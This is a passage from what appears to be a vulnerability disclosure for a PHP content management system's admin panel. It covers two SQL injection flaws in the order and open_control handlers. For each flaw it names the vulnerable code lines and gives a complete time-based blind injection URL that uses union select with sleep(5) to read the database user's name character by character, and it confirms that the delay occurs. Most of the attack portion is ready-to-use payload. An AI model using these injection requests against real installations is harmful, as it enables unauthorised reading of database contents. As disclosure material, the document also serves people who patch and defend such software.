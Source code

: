 Lines 73 and 80 do not have single quotation mark protection when getting the value of a variable and putting it into a query statement

![29.png](./img/29.png)

Line 105 calls the database query resulting in SQL injection.

After logging in to the background, access ```/admin.php?c=order&price_min=1%20and%201=2%20union%20select%20case%20when%20ascii(substring((select%20user()%20limit%200,1),1,1 ))=114%20then%20sleep(5)%20else%200%20end%23```

Query whether the first character of the current user name is r (ascii code is 114). If it is r, the request will be delayed by 5 seconds, otherwise it will not be delayed.

Can see that the request was delayed by 5 seconds.

![30.png](./img/30.png)

**[6]**

In the upload_f function of \framework\admin\open_control.php:

![31.png](./img/31.png)

Line 63 gets the value of the variable selected, and line 72 does not have single quote protection when assigning the value to the variable condition.

![32.png](./img/32.png)

Line 107 calls the database query resulting in SQL injection.

After logging in to the background, access ```/admin.php?c=open&f=upload&id=ss&selected=1) and 1=2 union select case when ascii(substring((select user() limit 0,1),1,1))=114 then sleep(5) else 0 end,2,3,4,5,6,7,8,9,10,11,12,13,14,15%23```

Query whether the first character of the current user name is r (ascii code is 114). If it is r, the request will be delayed by 5 seconds, otherwise it will not be delayed.

Can see that the request was delayed by 5 seconds.

![33.png](./img/33.png)